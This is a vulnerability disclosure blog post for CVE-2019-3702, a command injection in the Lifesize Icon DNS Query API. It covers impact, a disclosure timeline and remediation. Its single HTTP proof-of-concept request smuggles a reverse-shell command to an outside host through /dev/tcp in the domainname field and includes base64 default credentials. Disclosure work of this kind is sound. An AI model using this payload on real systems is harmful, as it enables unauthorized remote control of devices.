 ```yaml
---
layout: post
title: "Remote Code Execution in Lifesize Icon duplicate"
date: 2019-06-06 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-3702"
cve_description: "A Remote Code Execution issue in the DNS Query Web UI in Lifesize Icon LS_RM3_3.7.0 (2421) allows remote authenticated attackers to execute arbitrary commands via a crafted DNS Query address field in a JSON API request."
cvss: "8.8"
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: Lifesize
- Vendor Homepage: [https://www.lifesize.com/en](https://www.lifesize.com/en)
- Product: Lifesize Icon
- Version: LS_RM3_3.7.0 (2421)

## Background

LifeSize Icon is a video collaboration platform and consists of various components, e.q. software, video and phone systems.

From the vendor's [website](https://www.lifesize.com/en/video-conferencing-app):
"Lifesize conferencing is streamlined and built to enhance all the different ways your team communicates — from one-on-one audio and video calls to full-scale company meetings among multiple locations. Replace outdated, costly, and audio-only services with more meaningful face-to-face conversations. Features like easy-to-use interface, screen sharing, and calendar integration make Lifesize’s an award-winning HD video conferencing solution. And, unlike consumer-grade apps, Lifesize was built for business. We have over a decade of experience designing HD conference room cameras and touchscreen conference phones. We stand behind our service with a financially backed SLA with 24x7x365 customer support."

## Issue Description

While analyzing the implementation of LifeSize Icon Software, one Remote Code Execution vulnerability has been identified, which can be exploited in order to execute arbitrary commands within the DNS Query address field. This vulnerability can be exploited by authenticated attackers with access to the web interface.

The system provides a JSON API, which exposes various methods like the DNS Query function. This function contains a address field that can be exploited with a remote command execution.

The following **HTTP request** illustrates this approach:

~~~ http
POST /rest/request/8cb1a00d113443c6a9a220104bbdea33/Comm_dnsQuery HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101
Firefox/63.0
Accept: */*
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://1.1.1.1/
X-Client: icon-web-client
Authorization: LSBasic c3VwcG9ydDpzdXBwb3J0
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 142
Connection: close

{"call":"Comm_dnsQuery","params":{"type":"A","domainname": "1.1.1.2; 0<&196;exec 196<>/dev/tcp/1.1.1.2/4446; sh <&196 >&196 2>&196"}}
~~~

## Impact

This vulnerability affects the confidentiality / integrity / availability of the system. This allows an attacker to read / manipulate the system. If an attacker is aware of the security issue, he or she may steal important data or compromise the system. With this vulnerability, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable/update the software with this patch:
LS_RM3_3.7.0 (2421)

Software pataches avialable here: [https://cdn.lifesizecloud.com/](https://cdn.lifesizecloud.com/)

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}
- Patrick Muench

## Disclosure Timeline

- 2018-November-11: Discovered vulnerability
- 2019-Januar-03: Vendor Notification
- 2019-Januar-27: Vendor Response/Feedback
- 2019-May-12: Vendor Fix/Patch
- 2019-May-13: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## Licence

{{ site.licenceDisplay }}